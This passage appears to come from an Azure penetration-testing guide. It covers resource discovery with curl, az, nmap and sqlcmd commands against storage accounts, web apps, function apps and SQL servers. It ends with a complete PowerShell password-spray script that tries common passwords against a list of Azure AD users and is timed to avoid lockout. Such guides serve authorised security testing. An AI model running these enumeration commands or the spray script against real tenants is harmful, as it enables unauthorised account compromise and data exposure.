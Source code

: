 ### 1.2 Azure Resource Discovery

#### Storage Account Enumeration
```bash
# Storage account discovery
curl -s "https://target.blob.core.windows.net/?comp=list&include=metadata"
curl -s "https://target.file.core.windows.net/?comp=list"

# Public blob container enumeration
az storage blob list --account-name target --container-name \$web --output table
curl -s "https://target.blob.core.windows.net/\$web?restype=container&comp=list"
```

#### Azure Web Apps Discovery
```bash
# Azure Web App enumeration
curl -I https://target.azurewebsites.net
curl -s "https://target.scm.azurewebsites.net/api/settings" 

# Azure Function Apps
curl -I https://target.azurewebsites.net/api/
curl -s "https://target.azurewebsites.net/.well-known/host.json"
```

#### Azure SQL Database Discovery
```bash
# Azure SQL Server discovery
nmap -p 1433 target.database.windows.net
sqlcmd -S target.database.windows.net -d database_name -Q "SELECT @@version"

# Connection string testing
"Server=target.database.windows.net;Database=db;User ID=user;Password=pass;"
```

## 2. Azure Identity and Access Management Testing

### 2.1 Azure AD Authentication Testing

#### Password Spray Attacks
```powershell
# Azure AD password spray with PowerShell
$users = @("user1@target.com", "user2@target.com", "admin@target.com")
$passwords = @("Password123", "Summer2023", "Company123")

foreach ($password in $passwords) {
    foreach ($user in $users) {
        try {
            $credential = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $password -AsPlainText -Force))
            Connect-AzAccount -Credential $credential -ErrorAction Stop
            Write-Host "Success: $user : $password" -ForegroundColor Green
            Disconnect-AzAccount
        }
        catch {
            Write-Host "Failed: $user : $password" -ForegroundColor Red
        }
        Start-Sleep -Seconds 30  # Avoid lockout
    }
}
```
